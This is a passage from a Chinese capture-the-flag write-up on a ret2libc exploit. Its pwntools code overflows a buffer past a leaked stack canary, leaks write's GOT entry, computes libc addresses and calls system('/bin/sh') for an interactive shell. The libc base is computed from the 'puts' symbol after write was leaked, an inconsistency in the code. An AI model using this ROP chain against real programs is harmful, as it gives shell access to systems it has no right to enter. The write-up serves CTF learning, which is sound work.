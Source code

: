接下来按照普通ret2libc做就好了，拿write的plt和got输出

需要注意返回值的\x00不会覆盖，所以\x7f后面可能有乱码遗留，所以格式化一下

然后直接返回main开头再来一次

```python
payload = (b'A'* 248 + p64(canary) + b'B'* 8 +
           p64(0x0401313) + p64(write_got) +
           p64(write_plt) + p64(0x0401201))
p.sendline(payload)

data = p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')
print("[!!!]data= ", data, ":", format(u64(data), 'x'))
```

接下来让程序再次走到第二次输出

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

p.sendline(b"TEST")

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[2]", line, ":", hex_string)

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

最后算个地址，然后调用system

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['puts']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))

payload = (b'A'* 248 + p64(canary) + b'B'* 8 +
           p64(0x0401313) + p64(bin_bash) +
           p64(system_addr+27) + p64(0x04011FD))
p.sendline(payload) 

p.interactive()
```

## 3 ret2libc也阴嘛？
